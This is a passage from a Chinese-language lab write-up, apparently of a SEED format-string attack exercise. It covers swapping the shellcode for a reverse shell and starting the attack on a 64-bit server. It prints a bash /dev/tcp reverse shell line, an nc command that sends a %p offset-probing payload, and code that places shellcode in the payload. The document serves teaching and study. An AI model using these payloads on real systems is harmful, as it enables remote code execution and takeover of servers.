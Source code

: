 测试成功：

![image-20220430142449060](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012318403.png)

#### reverse shell

把shellcode修改成reverse shell：

```python
"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
```

测试成功：

![image-20220430143426157](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012318623.png)

![image-20220430143526901](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012318172.png)



## Task 5: Attacking the 64-bit Server Program

> **Challenges caused by 64-bit Address.** 
>
> 因为之前将地址放在format string前面，在64位的机器中，由于用户空间的地址高两位都是0，当`printf()`遇到地址中的`\0`时停止解析format string。
>
> ![image-20220430165913977](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012318589.png)
>

`echo hello | nc 10.9.0.6 9090`：

![image-20220430145620327](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012319652.png)

首先构造payload判断偏移，offset=34，说明buffer的起始位置在距离esp第34个偏移处

```terminal
echo AAAAAAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p | nc 10.9.0.6 9090
```

![image-20220430145803224](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012319292.png)

（同样的程序，比起32位机器上偏移少了很多，猜测是因为32位中函数的参数也放在栈上，64位中参数放在寄存器中）



和32位的程序一样，为了运行shellcode，**要把`myprintf`的return address改成shellcode的地址**。

- shellcode还是放在buf的最顶上：

  ```python
  # Put the shellcode somewhere in the payload
  
  start = 1500-len(shellcode)
  content[start:start + len(shellcode)] = shellcode
  ```
